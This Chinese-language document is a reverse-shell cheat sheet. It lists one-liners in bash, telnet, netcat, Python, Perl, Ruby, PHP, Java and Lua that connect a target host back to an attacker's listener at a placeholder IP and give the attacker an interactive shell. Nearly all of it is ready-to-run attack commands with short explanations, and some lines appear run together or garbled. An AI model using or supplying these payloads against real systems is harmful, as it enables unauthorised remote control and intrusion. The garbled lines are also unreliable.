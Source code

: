 # 0x00 前言

反弹shell的各种姿势。

# 0x01 Bash反弹

## 1.1 方法一

攻击者主机上执行监听：

```
nc -lvvp port
```

目标主机上执行：

```
bash -i >& /dev/tcp/x.x.x.x/port 0>&1#bash -i   打开一个交互的bash#>&   将标准错误输出重定向到标准输出#/dev/tcp/x.x.x.x/port   意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口#0>&1   标准输入重定向到标准输出，实现你与反弹出来的shell的交互
```

> 注：/dev/tcp/ 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

inux shell下常用的文件描述符是：

1.标准输入 (stdin) ：代码为 0 ，使用 < 或 << ；

2.标准输出 (stdout)：代码为 1 ，使用 > 或 >> ；

3.标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>。

另外由于不同Linux发行版之间的差异，该命令在某些系统上可能并不适用。

## 1.2 方法

```
exec 0&0 2>&00<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1
```

## 1.3 方法三

```
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

# 0x02 telnet反弹

## 2.1 方法一

攻击者主机上打开两个终端分别执行监听：

```
nc -lvvp 4444nc -lvvp 5555
```

目标主机中执行：

```
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

监听两个端口分别用来输入和输出，其中x.x.x.x均为攻击者ip

反弹shell成功后，在监听4444端口的终端中执行命令可以在另一个终端中看到命令执行结果。

## 2.2 方法二

```
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```

# 0x03 nc（netcat）反弹 

攻击者主机上执行监听命令：

```
nc -lvvp port
```

目标主机上执行：

```
nc -e /bin/bash x.x.x.x port
```

如果目标主机linux发行版本没有 -e 参数，还有以下几种方式：

```
rm /tmp/f ; mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc x.x.x.x 9999 >/tmp/f
```

> 注：mkfifo 命令的作用是创建FIFO特殊文件，通常也称为命名管道，FIFO文件在磁盘上没有数据块，仅用来标识内核中的一条通道，各进程可以打开FIFO文件进行read/write，实际上是在读写内核通道（根本原因在于FIFO文件结构体所指向的read、write函数和常规文件不一样），这样就实现了进程间通信

```
nc x.x.x.x 4444|/bin/bash|nc x.x.x.x 5555   #从4444端口获取到命令，bash 运行后将命令执行结果返回 5555 端口，攻击者主机上也是打开两个终端分别执行监听。
nc -c /bin/sh x.x.x.x 4444
/bin/sh | nc x.x.x.x 4444
```

**0x04 常见脚本反弹**

## 4.1 python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## 4.2 perl

### 4.2.1 方法一

```
perl -e 'use Socket;$i="x.x.x.x";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 4.2.2 方法二

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## 4.3 Ruby

### 4.3.1 方法一

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x","5555");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 4.3.2 方法二

```
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",5555).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## 4.4 PHP

```
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```

## 4.5 Java

```
public class Revs {/*** @param args* @throws Exception */public static void main(String[] args) throws Exception {    // TODO Auto-generated method stub    Runtime r = Runtime.getRuntime();    String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};    Process p = r.exec(cmd);    p.waitFor();}}
```

## 4.6 Lua

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('x.x.x.x','5555');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

> 注：以上脚本是在目标主机上执行，其中 x.x.x.x 均为攻击者ip，并且需要在攻击者主机上进行监听:
>
> nc -lvvp 5555

